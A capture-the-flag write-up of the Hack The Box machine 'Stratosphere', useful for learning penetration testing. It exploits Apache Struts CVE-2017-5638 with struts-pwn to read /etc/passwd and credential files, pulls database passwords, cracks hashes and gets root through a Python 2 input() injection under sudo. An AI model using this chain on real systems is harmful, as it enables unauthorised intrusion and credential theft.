# Hackthebox Writeup for Stratosphere

## Enumeration
As always, we will start with enumeration.

```bash
# -sV tells nmap to do a service scan
root@kali:~/ctf/hackthebox/stratosphere# nmap -sV 10.10.10.64
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-22 20:02 EDT
Nmap scan report for 10.10.10.64
Host is up (0.032s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
80/tcp   open  http
8080/tcp open  http-proxy
```
Looks like we have SSH, HTTP, and server running on a common alternate HTTP port.  If we browse to the website on port 80, we see the following:


Very colorful.  There is nothing in the headers to indicate what kind of server this is running:


In these situations, I will poke around the site to find out more.  While looking for robots.txt, I came across the 404 page:


This gives us a few more pieces of information which may come in useful later.  The server is running on Debian and is running Apache Tomcat 8.5.14.  Before we look for remote exploits, we will do some more recon.

When enumerating a website, I like to use a tool like DirBuster, dirb, or GoBuster.  I do not have a favorite, and I jump around between them so that I am familiar with each of them.

Let's go with GoBuster for this box (no pun intended).

```bash
# -u is the URL we want to scan
# -w specifies a word list we will use
# I like to use directory-list-2.3-medium.txt from Kali because it covers many common paths and files
gobuster -u http://10.10.10.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

After a few minutes, GoBuster reports that it found two directories: manager and Monitoring.


I surfed to manager, and it asked for credentials that I did not have.  I tried a few default ones (admin / admin, admin / password, and tomcat / s3cret).  The last one is the default for Tomcat (which we identified earlier).  Unfortunately, none of those worked:


That is okay though.  We still have another directory to enumerate, and the manager part of the site might be needed later.

When we surf to the Monitoring page, we are redirected to the following URL:
```
http://10.10.10.64/Monitoring/example/Welcome.action
```


Action files are used in Apache Struts.  For some background, Struts is used for creating Java web application.  It uses a framework called Model-View-Controller (MVC) for a given application.  MVC breaks an application into three parts (as the name would suggest):

  * Model: Takes care of managing data and of the logic and business rules applied to the data.
  * View: The representation of data (this is what you as the user sees)
  * Controller: Accepts input and tells the model and view what needs to be done.
  
You can think of the application as a restaurant.  The Model is in the back of the house applying processing (cooking) to the food.  The view is like the menu, and controller is like the waiter that coordinates everything.  In Apache Struts, action files are the controllers.  They take input and pass it to the model for processing.  When the model is done, the action takes that information and gives it to the view.

## Exploitation and User Flag
You may have heard of Apache Struts from the Experian breach[1] in 2017.  Two CVEs were popularized when news of the vulnerability first came out: CVE-2017-5638[2] and CVE-2017-9805[3].  Both vulnerabilities allow for remote code execution.  We will start with CVE-2017-5638 to see if the server is vulnerable.  We could throw the exploit at it, but I like to determine if a service is vulnerable before throwing exploits at it.  We can use an nmap script to check if the target is vulnerable.

nmap scripts are powerful additions to nmap which allow you to gather more information from a target.  nmap scripts utilize the nmap Scripting Engine (nse), so you might see these scripts referred to as nse scripts.  The one to check for CVE-2017-5368 is available here[4].

After downloading the script, we launch it like so:

```bash
# -p 80 tells nmap to scan port 80.  There is an HTTP server on 8080 as well, but we will start with 80.
# --script tells nmap to run the specified script. http-vuln-cve2017-5638.nse is the script we downloaded.
# --script-args allows us to pass arguments to the script we want to run.  The arguments for this script are documented on its page (linked above).
# http-vuln-cve2017-5638.path allows us to specify a path to the appplication we want to scan.  This path is relative to the root of the site.
# At the end, we specify the target IP (or hostname if we had one)
nmap -p 80 --script http-vuln-cve2017-5638.nse --script-args http-vuln-cve2017-5638.path=/Monitoring/example/Welcome.action 10.10.10.64
```

Let's see what we get:


According to the script, the target is vulnerable.  There are a number of tools we can use to exploit this vulnerability.  I decided to use struts-pwn[5].  Metasploit also has a module (exploit/multi/http/struts2_content_type_ognl) if you are into Metasploit.

Let's setup our environment:
```bash
# Download the code.  It will be downloaded into a new directory called struts-pwn inside of the current directory.
git clone https://github.com/mazen160/struts-pwn

# Set up a Python virtual environment so that we can keep this Python application neatly contained.
# This command sets up a virtual environment in the same directory that we downloaded the code to.
python-3.6 -m venv struts-pwn

# Change directories into our newly created directory
cd struts-pwn/

# Activate the virtual environment
source bin/activate

# Install required Python libraries (requirements.txt tells pip what packages it needs to install.  This file often comes with an application)
pip install -r requirements.txt
```

We are ready to try a command to see if the target is indeed vulnerable.  The script is relatively simple to use.  It needs only two arguments:
```bash
# --url is the path to the vulnerable Struts application
# -c is the command we want to run
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'id'
```

We will run a fairly innocuous command: id to see who the service is running as and to see if the exploit works using the command above.



Looks like it worked.  We can ignore the warnings.
```bash
uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
```
We are running as the tomcat8 user.  Let's see what other users are on the box by looking at /etc/passwd:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat /etc/passwd'
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
rtkit:x:105:109:RealtimeKit,,,:/proc:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:107:110::/var/run/dbus:/bin/false
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
speech-dispatcher:x:109:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lightdm:x:111:113:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:112:114:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:113:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:114:118::/var/lib/saned:/bin/false
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
tomcat8:x:115:119::/var/lib/tomcat8:/bin/bash
mysql:x:116:120:MySQL Server,,,:/nonexistent:/bin/false
```
We have another user called richard which is probably where we have to go, but we do not have enough information to get there yet.  For now, we can poke around the home directory for the user we have (/var/lib/tomcat8):
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'ls -al /var/lib/tomcat8'
```



There is an interesting file in there called db_connect.  Let's see what is in it:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat /var/lib/tomcat8/db_connect'
```



```
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

After doing some more enumeration in that directory, I stumbled across a file called tomcat-users.xml:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat /var/lib/tomcat8/conf/tomcat-users.xml'
```

```xml
...
<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />
...
```
I tried to use these credentials on the manager page we found before (because the user has the manager-gui and admin-gui roles), but the credentials did not work.

No worries.  Let's see if we can find the database where we can use those credentials we found before.  One way to find databases on a machine is to check what ports are listening:
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'ss -tuna'
```
```
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
tcp    LISTEN     0      128       *:22                    *:*                  
tcp    LISTEN     0      1      127.0.0.1:8005                  *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      100       *:8080                  *:*                  
tcp    TIME-WAIT  0      0      10.10.10.64:8080               10.10.14.38:58134              
tcp    TIME-WAIT  0      0      10.10.10.64:8080               10.10.14.38:58132              
tcp    TIME-WAIT  0      0      10.10.10.64:8080               10.10.14.38:58130              
tcp    ESTAB      0      0      10.10.10.64:8080               10.10.14.38:58136              
tcp    LISTEN     0      128      :::22                   :::*                  
```
It looks like the box is listening on 3306 which is the port for mySQL / MariaDB.  That means we can try the credentials we found against that database.  First, we will try to get a list of databases:
```bash
# The mySQL command for listing databases is SHOW DATABASES;
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql --user="admin" --password="admin" --execute="SHOW DATABASES;"'
```


Looks like we have 3.  Since our goal right now is to find user credentials so we can get to the eventual goal of owning the box, I will focus on the users database for now.

To list all of the tables in the database, we will use the following SQL command:
```sql
USE users; SHOW TABLES;
```

```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql --user="admin" --password="admin" --execute="USE users; SHOW TABLES;"'
```


In the users database, there is an interesting table called accounts.  Let's take a look at what is in it.
```sql
USE users; SELECT * FROM accounts;
```
```bash
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql --user="admin" --password="admin" --execute="USE users; SELECT * FROM accounts;"'
```

Looks like we may have some credentials for richard:

```
fullName	        password	                username
Richard F. Smith	9tc*rhKuG5TyXvUJOrE^5CK7k	richard
```
The password does not look hashed, so it could be richard's user password which we may be able to use to SSH into the box.  Let's try it:
```bash
ssh richard@10.10.10.64
```

Looks like it worked.  The user flag is in his home directory under user.txt.

## Owning the Box and the Root Flag
After getting user on a Linux box, I like to do some enumeration to see what I can do in the context of that user.  One command I like to run is ```sudo -l``` which tells us what commands the user can run as root, if any.


Looks like we can run the test.py Python script in richard's home directory.  Let's see what it is:

This is a relatively simple script that asks a number of "questions."  If we get the questions right, another Python script is executed (/root/success.py).  The questions appear to be hashes we have to figure out the plaintext for.  You can plug these into a number of online tools or use John to crack them.  For the first three, I used an online page.  For the last one, I used John:

```bash
5af003e100c80923ec04d65933d382cb : kaybboo!
d24f6fb449855ff42344feff18ee2819033529ff : ninjaabisshinobi
91ae5fc9ecbca9d346225063f23d2bd9 : legend72

# blake-hash.txt is a file containing the hash and nothing else
john --format=Raw-Blake2 --wordlist=/usr/share/wordlists/rockyou.txt blake_hash.txt 
9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943: Fhero6610
```
Let's try running it:
```bash
sudo /usr/bin/python3 /home/richard/test.py
```


Dang.  The script we were hoping for does not exist.  Looking at the script again, it looks like it uses the input function.  In Python 2, the input function attempts to evaluate the input as Python code.  When I saw ```/usr/bin/python3```, I thought I needed to run the script using the Python 3 interpreter.  We can run the script with the Python 2 interpreter (usually located at ```/usr/bin/python2```) because we can sudo ```/usr/bin/python*```.  We will go straight for the root flag which is likely at ```/root/root.txt```.  We need the following Python code to read the file:
```python
__import__("os").system("cat /root/root.txt")
```

We will put that in when the script asks its first question (when it uses input for the first time).  When we will the script, we will run it with the Python 2 interpreter this time:
```bash
sudo /usr/bin/python2 /home/richard/test.py
```

Let's try it out:


It worked! And that wraps up another box.

## References
[1]: https://www.scmagazine.com/apache-struts-vulnerability-likely-behind-equifax-breach-congress-launches-probes/article/687955/ "Apache Struts vulnerability likely behind Equifax breach, Congress launches probes"
[2]: https://nvd.nist.gov/vuln/detail/CVE-2017-5638 "CVE-2017-5638 Detail (National Vulnerability Database)"
[3]: https://nvd.nist.gov/vuln/detail/CVE-2017-9805 "CVE-2017-9805 Detail (National Vulnerability Database)"
[4]: https://nmap.org/nsedoc/scripts/http-vuln-cve2017-5638.html "http-vuln-cve2017-5638 NSE Script"
[5]: https://github.com/mazen160/struts-pwn "struts-pwn"

    * [<sup>1</sup> Apache Struts vulnerability likely behind Equifax breach, Congress launches probes](https://www.scmagazine.com/apache-struts-vulnerability-likely-behind-equifax-breach-congress-launches-probes/article/687955/)
    * [<sup>2</sup> CVE-2017-5638 Detail (National Vulnerability Database)](https://nvd.nist.gov/vuln/detail/CVE-2017-5638)
    * [<sup>3</sup> CVE-2017-9805 Detail (National Vulnerability Database)](https://nvd.nist.gov/vuln/detail/CVE-2017-9805)
    * [<sup>4</sup> http-vuln-cve2017-5638 NSE Script](https://nmap.org/nsedoc/scripts/http-vuln-cve2017-5638.html)
    * [<sup>5</sup> struts-pwn](https://github.com/mazen160/struts-pwn)